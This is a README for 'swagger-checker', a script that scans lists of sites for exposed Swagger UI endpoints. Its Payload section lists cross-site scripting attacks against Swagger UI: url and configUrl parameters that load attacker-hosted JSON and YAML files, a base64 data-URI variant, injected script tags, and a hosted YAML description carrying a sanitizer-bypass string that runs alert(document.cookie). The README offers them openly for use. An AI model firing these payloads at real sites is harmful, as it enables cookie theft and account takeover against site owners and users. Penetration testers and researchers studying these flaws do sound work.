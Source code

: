 # **swagger-checker**
<a href="https://asciinema.org/a/587848" target="_blank"><img src="https://asciinema.org/a/587848.svg" /></a>

Swagger UI Checker is a tool used to check Swagger UI endpoints. It verifies the presence of Swagger UI by sending HTTP requests to specified URLs and paths. This tool relies on the httpx command-line tool for making HTTP requests. Before using Swagger UI Checker, ensure that you have httpx installed.

## **Requirements**

- **httpx** :
This tool is required for sending HTTP requests and retrieving responses. You can install it using the package manager of your choice or by following the installation    instructions provided by the httpx project.
#### Installation Instructions

   `httpx` requires **go1.19** to install successfully. Run the following command to get the repo:
  
   ```sh
   go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
   ```
   **or**
   ```sh
   git clone https://github.com/projectdiscovery/httpx.git; \
   cd httpx/cmd/httpx; \
   go build; \
   mv httpx /usr/local/bin/; \
   httpx -version;
   ```
## **installation**
```sh
git clone https://github.com/Yudha-ard/swagger-checker.git
chmod +x swagger.sh
```

## **Usage**
```sh
./swagger.sh sites.txt swagger.txt 
```
## **Payload**

***Example*** : {site}/{swagger_endpoint}?{parameter}={payload}
- site.com/swagger?url=https://codelatte.id/xss.yaml
- site.com/swagger?configUrl=https://codelatte.id/xss.json
- site.com/swagger/?url=https://codelatte.id/xss.yaml
- site.com/swagger/?configUrl=https://codelatte.id/xss.json
- site.com/swagger/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9jb2RlbGF0dGUuaWQveHNzLnlhbWwiCn0=
- site.com/swagger/?url=%3Cscript%3Ealert(atob(%22MQ==%22))%3C/script%3E
- site.com/swagger?url=%3Cscript%3Ealert(atob(%22MQ==%22))%3C/script%3E

**https://codelatte.id/xss.json**
```
{
    "url": "https://codelatte.id/xss.yaml",
    "urls": [
        {
            "url": "https://codelatte.id/xss.yaml",
            "name": "XSS Document"
        }
    ]
}

```
**https://codelatte.id/xss.yaml**
```
swagger: '2.0'
info:
  title: Classic API Resource Documentation
  description: |
    <form><math><mtext></form><form><mglyph><svg><mtext><textarea><path id="</textarea><img onerror=alert(document.cookie) src=1>"></form>

  version: production
basePath: /JSSResource/
produces:
  - application/xml
  - application/json
consumes:
  - application/xml
  - application/json
security:
  - basicAuth: []
paths:
  /accounts:
    get:
      responses:
        '200':
          description: No response was specified
      tags:
        - accounts
      operationId: findAccounts
      summary: Finds all accounts
  '/accounts/groupid/{id}':
...
```

**base64encode**
```
ewoidXJsIjoiaHR0cHM6Ly9jb2RlbGF0dGUuaWQveHNzLnlhbWwiCn0=
```
**base64decode**
```
{
   "url":"https://codelatte.id/xss.yaml"
}
```
## **References**

- https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://medium.com/@ghostlulzhacks/swagger-api-c07eca05441e
